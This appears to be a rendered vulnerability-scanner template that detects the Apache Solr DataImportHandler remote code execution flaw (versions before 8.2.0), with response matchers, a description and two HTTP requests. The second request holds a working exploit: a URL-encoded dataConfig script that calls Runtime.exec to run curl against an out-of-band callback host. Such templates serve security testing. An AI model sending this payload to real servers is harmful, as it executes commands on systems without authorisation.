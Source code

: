 **Type - word**

- part - body
- words
  1. numRowsRead
  2. numRowsIndexed
- condition - and

**Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---

# Apache Solr DataImportHandler \<8.2.0 - Remote Code Execution

## Description

- Apache Solr is vulnerable to remote code execution vulnerabilities via the DataImportHandler, an optional but popular module to pull in data from databases and other sources. The module has a feature in which the whole DIH configuration can come from a request's "dataConfig" parameter. The debug mode of the DIH admin screen uses this to allow convenient debugging / development of a DIH config. Since a DIH config can contain scripts, this parameter is a security risk.

- severity - high
- tags - cve2019,apache,rce,solr,oast,kev,vulhub,cve

## Requests

### Step - 1

```
GET /solr/admin/cores?wt=json HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Step - 2

```
POST /solr/{{core}}/dataimport?indent=on&wt=json HTTP/1.1
Host: {{Hostname}}
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22curl%20{{interactsh-url}}%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

```
